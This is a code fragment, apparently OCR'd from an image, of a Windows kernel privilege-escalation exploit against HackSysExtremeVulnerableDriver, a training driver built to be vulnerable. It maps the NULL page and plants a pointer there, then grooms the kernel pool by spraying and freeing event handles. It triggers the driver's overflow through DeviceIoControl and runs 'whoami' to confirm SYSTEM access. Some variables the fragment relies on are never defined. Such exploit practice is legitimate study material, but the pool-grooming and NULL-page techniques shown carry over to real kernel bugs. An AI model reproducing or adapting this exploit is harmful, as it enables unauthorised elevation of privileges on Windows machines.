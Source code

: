 ```c
	PVOID baseAddress = (PVOID) 1;
	ULONG regionsize = 0x100;
	NTSTATUS status = NtAllocateVirtualMemory((HANDLE) 0xFFFFFFFF, &baseAddress, 0, &regionsize, 0x3000, 0x40);

	if (status != 0) {
		printf("alloc failed,error code is:%u\n", status);
		return 0;
	}
	if (!WriteProcessMemory((HANDLE)0xFFFFFFFF, (LPVOID)0x60, &ptr, 0x4, NULL)) {
		printf("write failed\n");
		return 0;
	}

	int i = 0;
	int j = 0;
	HANDLE spray1[10000];
	HANDLE spray2[5000];

	for (i = 0; i < 10000; i++) {
		spray1[i] = CreateEventA(NULL, FALSE, FALSE, NULL);
	}
	for (i = 0; i < 5000; i++) {
		spray2[i] = CreateEventA(NULL, FALSE, FALSE, NULL);
	}

	for (i = 0; i < (sizeof(spray2) / sizeof(HANDLE)); i = i + 16) {
		for (j = 0; j < 8; j++) {
			CloseHandle(spray2[i + j]);
		}
	}


	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DWORD lpBytesReturned = 0;
	DeviceIoControl(hevDevice, 0x22200f, payload, sizeof(buf) + 40, NULL, 0, &lpBytesReturned, NULL);

	for (i = 8; i < (sizeof(spray2) / sizeof(HANDLE)); i = i + 16) {
		for (j = 0; j < 8; j++) {
			CloseHandle(spray2[i + j]);
		}
	}

	for (i = 0; i < 10000; i++) {
		CloseHandle(spray1[i]);
	}

	system("whoami");
	return 0;
}

```
